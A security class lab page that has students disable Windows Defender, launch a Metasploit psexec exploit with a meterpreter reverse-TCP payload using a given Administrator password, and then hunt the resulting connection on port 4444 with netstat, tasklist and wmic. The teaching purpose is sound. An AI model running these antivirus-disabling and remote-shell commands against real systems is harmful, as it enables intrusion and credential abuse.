 # Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a terminal.  

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a **Kali** instance by clicking the **Kali** logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/windowscli_disabledefender.png)

Please note, if you get red errors that say 

<pre>A general error occurred that is not covered by a more specific error code.</pre> 

That is OK!  It means **Defender** was disabled.  We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Now that we disabled **Windows Defender**, we can head back to our **Kali** terminal.

Within the terminal, please run the following command:

<pre>ifconfig</pre>>

![](attachments/windowscli_ifconfig.png)

Please note the IP address of **your** Ethernet adapter. 

Please note that my adapter is called **eth0** and my IP address is **172.26.19.133.**   

**Your IP Address and adapter name may be different.**

Please note your IP address for the **ADHD Linux system** on a piece of paper:

We need to gain root access within our **Kali** terminal. To do that, run the following command:

<pre>sudo su -</pre>

Next, we will start the **Metasploit** handler with the following command:

<pre>msfconsole -q</pre>

It will take a second to connect, be patient!

When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

<pre>use exploit/windows/smb/psexec</pre>

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

We also need to set the **RHOST IP** by using the following command:

<pre>set RHOST 10.10.1.209</pre>

![](attachments/windowscli_sets.png)

**Remember, your IP will be different!**

Next, we need to set the **SMB** username and password. 

<pre>set SMBUSER Administrator</pre>

<pre>set SMBPASS T@GEq5%r2XJh</pre>

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

<pre>exploit</pre>

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Go ahead an open an instance of **Windows PowerShell**.

![](attachments/OpeningPowershell.png)

Run the following command:

<pre>netstat -naob</pre>

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

<pre>netstat -f</pre>

I like to run **"-f"** with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

Now we see our last connection with the **port 4444**.

Let's get the Process ID **(PID)** from the above screenshot so we can dig a little deeper.

![](attachments/windowscli_pid.png)

We will start with tasklist  

<pre>tasklist /m /fi "pid eq [PID]"</pre>

**YOUR PID WILL BE DIFFERENT!**

![](attachments/windowscli_tasklist.png)

We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

<pre>wmic process where processid=[PID] get commandline</pre>

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

<pre>wmic process get name,parentprocessid,processid | select-string [PID]</pre>

![](attachments/windowscli_selectstring.png)

Lets go through the steps we took to hunt for a malicious process

1. We found its parent process ID.  

2. We did a search on that process ID.  

3. As you can see above, it was launched by the cmd.exe process.  

4. Note that the search we just did may turn up some other things launched by the command line as well.

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)








 

